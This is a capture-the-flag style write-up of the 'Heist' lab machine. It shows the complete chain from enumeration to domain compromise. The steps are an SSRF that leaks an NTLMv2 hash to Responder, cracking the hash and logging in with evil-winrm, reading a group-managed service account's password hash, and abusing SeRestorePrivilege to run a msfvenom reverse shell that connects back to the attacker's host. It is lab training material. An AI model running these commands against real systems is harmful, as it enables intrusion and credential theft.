 # Heist

### Enumeration

```
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http          Werkzeug httpd 2.0.1 (Python 3.9.0)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-title: Super Secure Web Browser
```

http://192.168.147.165:8080/?url=http://localhost:8080 - **SSRF**

```
# cd /usr/share/responder
# python3 Responder.py -I tun0 --lm -v
```

**http://192.168.147.165:8080/?url=http%3A%2F%2F192.168.49.147%2F**

```
[HTTP] Sending NTLM authentication request to 192.168.147.165
[HTTP] GET request from: 192.168.147.165  URL: / 
[HTTP] Host             : 192.168.49.147 
[HTTP] NTLMv2 Client   : 192.168.147.165
[HTTP] NTLMv2 Username : HEIST\enox
[HTTP] NTLMv2 Hash     : enox::HEIST:[REDACTED]
```

NTLMv2 Hash -> hash.txt

```
$ john hash.txt
[REDACTED]    (enox)
```

### Initial Access

```
$ evil-winrm -u enox -p [REDACTED] -i 192.168.147.165
```

### Lateral Movement

```
*Evil-WinRM* PS C:\Users\enox\Desktop> type todo.txt
- Setup Flask Application for Secure Browser [DONE]
- Use group managed service account for apache [DONE]
- Migrate to apache
```

svc\_apache$ -> managed service account

```
*Evil-WinRM* PS C:\USers> net user enox
Global Group memberships     *Web Admins           *Domain Users
```

> Enox account in the Web Admins group. May be, we have some power over the Apache account.
>
> Group Managed Service Accounts (GMSA)
>
> Group Managed Service Accounts provide a higher security option for non-interactive applications, services, processes, or tasks that run automatically but need a security credential.
>
> These service accounts are given automatically-generated passwords. Given certain permissions, it is possible to retrieve these password hashes from Active Directory. To see what users or groups have permissions to do that for a given service account, we can look up the PrincipalsAllowedToRetrieveManagedPassword user property on the account.

[https://github.com/CsEnox/tools/raw/main/GMSAPasswordReader.exe](https://github.com/CsEnox/tools/raw/main/GMSAPasswordReader.exe)

```
*Evil-WinRM* PS C:\Users\enox\Desktop> upload GMSAPasswordReader.exe

*Evil-WinRM* PS C:\USers\enox\Documents> ./GMSAPasswordReader.exe --accountname svc_apache
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : [REDACTED]
[*]       aes128_cts_hmac_sha1 : [REDACTED]
[*]       aes256_cts_hmac_sha1 : [REDACTED]
[*]       des_cbc_md5          : [REDACTED]

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : [REDACTED]
[*]       aes128_cts_hmac_sha1 : [REDACTED]
[*]       aes256_cts_hmac_sha1 : [REDACTED]
[*]       des_cbc_md5          : [REDACTED]
```

Current Value -> rc4\_hmac

```
$ evil-winrm -u 'svc_apache$' -H [REDACTED]-i 192.168.147.165
```

### PrivEsc

SeRestorePrivilege - Enabled

[https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe](https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe)

```
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> Invoke-WebRequest -Uri http://192.168.49.147/SeRestoreAbuse.exe -OutFile SeRestoreAbuse.exe
```

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.147 LPORT=80 -f exe -o shell.exe
```

```
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> Invoke-WebRequest -Uri http://192.168.49.147/shell.exe -OutFile shell.exe

*Evil-WinRM* PS C:\Users\svc_apache$\Documents> .\SeRestoreAbuse.exe "cmd /c \Users\svc_apache$\Documents\shell.exe"
```
